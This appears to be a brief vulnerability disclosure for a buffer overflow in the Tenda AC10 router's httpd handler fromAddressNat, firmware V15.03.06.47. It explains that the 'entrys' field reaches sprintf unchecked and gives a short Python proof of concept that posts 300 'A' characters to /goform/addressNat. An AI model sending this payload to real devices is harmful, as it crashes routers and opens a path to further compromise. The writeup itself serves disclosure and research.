

# buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/fromAddressNat

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:




get value from entrys ,then call sprintf, cause buff overflow


## POC
```
url = "http://192.168.1.13/goform/addressNat"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'entrys': payload})
``` 
